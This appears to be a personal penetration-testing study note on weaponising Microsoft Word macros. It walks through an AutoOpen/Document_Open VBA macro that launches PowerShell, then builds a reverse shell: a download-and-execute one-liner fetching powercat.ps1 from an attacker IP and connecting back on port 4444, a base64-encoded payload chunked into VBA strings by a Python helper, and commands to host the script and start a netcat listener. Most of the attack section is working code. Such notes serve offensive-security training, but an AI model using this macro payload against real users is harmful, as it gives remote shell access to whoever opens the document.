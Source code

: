 
MS Office allow users to embed macros (a series of instructions or commands) grouped together to programmatically achieve a task.

`Macros can be written from scratch in Visual Basic for Applications (VBA), which is a powerful scripting language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications`

`Bear in mind that older client-side attack vectors, including Dynamic Data Exchange (DDE)4 and various Object Linking and Embedding (OLE)5 methods do not work well today without significant target system modification`


#### Creating macro

In word we must use a `.doc` file not a `.docx` file - macros in` .docx` files are not persistent, only `.doc` files can save macros in the file. We can also use `.docm` files for our embedded macro

1. Save file as Word 97-2003 document.
2. Click View tab
3. click Macros element
4. enter macro name
5. select document from `Macros in:`
6. click create to insert a simple macro framework into document
7. Now we have a MS Visual Basic for Applications windows to develop our macro.

below we create a script that calls our "MyMacro" sub procedure when the document is opened or automatically opened.

Our sub procedure makes use of ActiveX Objects - which provide access to underlying operating system commands. This is/can be achieved with `WScript` through the` windows script host shell object`. Which we are using to launch powershell.

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

Click save.

When the document is opened we will need to enable content - which a powershell session will be started and opened.


#### Macro Reverse Shell

1. `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell"` - base64 encode our payload to avoid special character issues using [[File Upload Vulnerabilities]] pwsh - `if port 4444 doesnt work, try other ports like 443`

2. use the following python script to construct our payload within VBA - we need to split up string literal (due to char limit) and concatenate the payload.

```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

3.  We then have our payload

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

4. `python3 -m http.server 80` - Start a python web server to host our powercat file.
5. `nc -nvlp 4444` - start out Netcat listener for a connection.

`Our Enable Editing button will only appear again if the name of the document changes`

